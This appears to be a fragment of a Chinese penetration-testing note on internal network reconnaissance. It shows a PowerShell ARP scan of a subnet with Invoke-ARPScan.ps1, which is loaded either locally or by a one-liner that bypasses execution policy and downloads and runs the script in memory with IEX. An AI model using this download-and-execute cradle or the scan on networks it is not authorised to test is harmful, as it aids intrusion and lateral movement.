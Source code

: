 ![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%202.png)

或者使用PowerShell脚本：[https://raw.githubusercontent.com/sinmygit/git/master/Invoke-ARPScan.ps1](https://raw.githubusercontent.com/sinmygit/git/master/Invoke-ARPScan.ps1)。

```powershell
set-ExecutionPolicy RemoteSigned
Import-Module .\Invoke-ARPScan.ps1
Invoke-ARPScan -CIDR 10.10.10.0/24

powershell.exe -exec bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://127.0.0.1/Invoke-ARPScan.ps1');Invoke-ARPScan -CIDR 10.10.10.0/24"
```

![Untitled](%E5%86%85%E7%BD%91%E4%BF%A1%E6%81%AF%E6%90%9C%E9%9B%86%20e8733b02d1614977972a074a690afd8e/Untitled%203.png)
